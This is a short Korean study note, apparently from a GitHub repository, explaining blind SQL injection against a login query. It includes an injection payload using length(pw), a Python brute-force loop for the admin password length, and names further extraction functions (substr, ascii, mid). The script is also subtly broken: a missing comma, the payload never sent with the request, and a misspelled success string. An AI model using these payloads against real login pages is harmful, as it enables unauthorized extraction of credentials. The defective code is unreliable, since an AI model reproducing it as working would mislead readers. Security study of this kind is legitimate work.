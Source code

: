 # blind sql injection

### blind sql injection 이란?

> 임의의 sql 구문을 만들어 데이터를 열람하는 공격이다.

즉 어떠한 데이터베이스에 공격을할때 임의의 query 를 만들어서 반환값을 이용해 한글자씩 따온다.

예 db 구조
```sql
database -> member
tables -> member
column -> (id,pw)
data -> ("admin","password"),("guest","guest")
```
```sql
SELECT * FROM member WHERE id='' and pw='';
```
위의 sql 쿼리로 login 을 체크할 시에
python 으로 blind sql injection 로 예를 든다면

```py
import requests

Url = "in url"

for length in range(1,100):
    data = {
        'uid':f"admin' and length(pw)={length}--'"
        'upw':'a'
    }

    r = requests.post(Url).text

    if r.find("Login succee!") > 0:
        print("admin user length pw : ",length)
        break
```

위의 python script 말고도 보고싶으면 밑의 링크에서 참고하면 좋다.

+ [blind sqli python script](https://github.com/kimminwyk/Study-notes/blob/master/MYSQL/MYSQL-SQL-injection/blind-sql-injection/blind-sql-injection-python-script.md)

+ [blind sqli node.js script](https://github.com/kimminwyk/Study-notes/blob/master/MYSQL/MYSQL-SQL-injection/blind-sql-injection/blind-sql-injection-node_js-script.md)


다음과 같은 예로 data 라는 변수에 dict 형식으로 

blind sqli 에 사용되는 쿼리를 만들어서 

requests 모듈로 요청한 뒤에 find 함수로 로그인 성공 감지됐다면 length 를 출력하는식이다.

* * *

간단하게 length(pw)={length} 에서 {} 안에 for loop 로 브루트포싱하여

참값이 될때까지 반복하는것이다.

위의 블라인드 인젝션이 성공되는 경우에는

```sql
SELECT * FROM member WHERE id='admin' and length(pw)=[1~100]
```

다음 쿼리와 같이 참의 값이 만들어져서 Login 이 우회되는것을 감지한다.

* * *

### length

그리고 mysql 에서 length() 는 안에 들어가는 데이터나 값을 넣으면 해당 데이터의 길이를 반환한다.

### 마무리

blind sqli 에서 length 말고도 다양한 쿼리가 존재한다

substr , left , ascii , mid 등등 다양한 문자열 , 길이를 브루트포싱하기위해 사용되는 함수가 많다.

